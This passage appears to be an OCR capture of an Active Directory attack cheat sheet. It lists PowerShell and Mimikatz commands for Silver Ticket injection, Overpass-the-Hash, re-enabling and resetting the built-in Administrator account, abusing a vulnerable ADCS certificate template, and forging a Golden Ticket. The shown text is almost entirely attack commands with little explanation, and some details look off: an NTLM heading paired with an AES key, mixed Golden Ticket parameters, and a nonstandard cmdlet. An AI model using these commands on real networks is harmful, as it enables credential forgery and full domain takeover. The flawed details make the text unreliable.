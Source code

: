 * **Inject the Silver Ticket**:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt silver.kirbi"'
```

#### 9.5 Overpass-the-Hash (Pass-the-Key)&#x20;

* **Use NTLM Hash to Request TGT**:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<UserName> /domain:<Domain> /aes256:<AES_Key> /run:powershell.exe"'
```

#### 9.6 Abuse RID 500 Accounts&#x20;

* **Enable Disabled RID 500 Account (if applicable)**:

```powershell
Enable-ADAccount -Identity "Administrator"
```

* **Reset Password of RID 500 Account**:

```powershell
Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString -AsPlainText "NewP@ssword!" -Force)
```

#### 9.7 Active Directory Certificate Services (ADCS) Exploitation&#x20;

* **Enumerate Available Certificate Templates**:

```powershell
Get-CertificationAuthority | Get-CertificateTemplate | Select-Object Name, DisplayName, pKCS10KeyUsage
```

* **Request a Certificate Using a Vulnerable Template**:

```powershell
$Cert = Get-Certificate -Template "VulnerableTemplate" -CertStoreLocation "Cert:\CurrentUser\My" -DnsName "example.com" -Subject "CN=MaliciousUser"
```

* **Use Certificate for Authentication**:

```powershell
Invoke-PowerShellWebRequest -Uri "https://<target_ip>" -Certificate $Cert
```

#### 9.8 Kerberos Attacks (Golden Ticket, Silver Ticket, etc.)&#x20;

* **Create a Golden Ticket with Additional Attributes**:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<Domain_SID> /krbtgt:<NTLM_Hash> /extra /rc4:<RC4_Hash> /aes256:<AES256_Key> /ticket:golden.kirbi"'
```
